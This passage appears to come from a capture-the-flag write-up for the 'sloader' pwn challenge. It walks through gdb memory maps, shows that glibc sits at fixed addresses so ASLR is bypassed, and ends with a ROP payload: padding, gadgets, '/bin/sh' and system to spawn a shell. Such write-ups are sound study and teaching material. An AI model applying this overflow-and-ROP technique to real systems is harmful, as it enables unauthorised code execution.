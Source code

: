 ```
0x000000001107f000 0x00000000110d0000 0x0000000000051000 0x0000000000000000 rw- <tls>  <-  $rsi, $r9
0x00007fdccfd75000 0x00007fdccfd79000 0x0000000000004000 0x0000000000000000 rwx /home/ubuntu/tsgctf4/pwn/sloader/src/chall
0x00007fdccfd79000 0x00007fdccfd7d000 0x0000000000004000 0x0000000000000000 rwx /home/ubuntu/tsgctf4/pwn/sloader/src/chall
0x00007ffcf992e000 0x00007ffcf994f000 0x0000000000021000 0x0000000000000000 rw- [stack]  <-  $rsp
0x00007ffcf99d6000 0x00007ffcf99da000 0x0000000000004000 0x0000000000000000 r-- [vvar]
0x00007ffcf99da000 0x00007ffcf99dc000 0x0000000000002000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000001000 0x0000000000000000 --x [vsyscall]
```

Another interesting point for this linker is how the libc address is resolved.
Let's see what happens how `scanf` in `main` is resolved.
In the middle of scanf, the backtrace is like this

```
gef> bt
#0  0x00000000101f05c2 in read ()
#1  0x0000000010148121 in _IO_new_file_underflow ()
#2  0x000000001014b7a7 in _IO_default_uflow ()
#3  0x00000000101317c0 in __vfscanf_internal ()
#4  0x0000000010130d5f in __isoc99_scanf ()
```
so, `scanf` is located at the strange address `0x0000000010130d5f`. What is this? This is located in the mapped region with a fixed address.
In fact, all the functions in glibc seem to be mapped in the sloader's region.

https://github.com/akawashiro/sloader/blob/0744fde8deab2c3269c11e1075d13c5cc80a82e5/libc_mapping.cc#L281

```
0x0000000010001000 0x0000000010263000 0x0000000000262000 0x0000000000001000 r-x /home/ubuntu/tsgctf4/pwn/sloader/src/sloader  <-  $rcx, $rip
```

Which means, we don't have to leak any address to bypass ALSR.

Now the problem is how do I bypass the stack canary? If you try to input a large buffer (like "A" * 100) to it, you will notice that you can overwrite the return address!

```
0x7ffc3d465a08|+0x0000|000: 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'[...]  <-  retaddr[1]  <-  $rsp
```
So now we can pwn this chall just by a simple ROP payload:
```
system_addr = 0x1012c960
binsh = 0x10270563
pop_rdi = 0x10009132
ret = pop_rdi + 1

padding = b"A" * 40

payload = [
    ret,
    pop_rdi,
    binsh,
    system_addr,
]

payload = padding + b''.join(map(p64, payload))

```

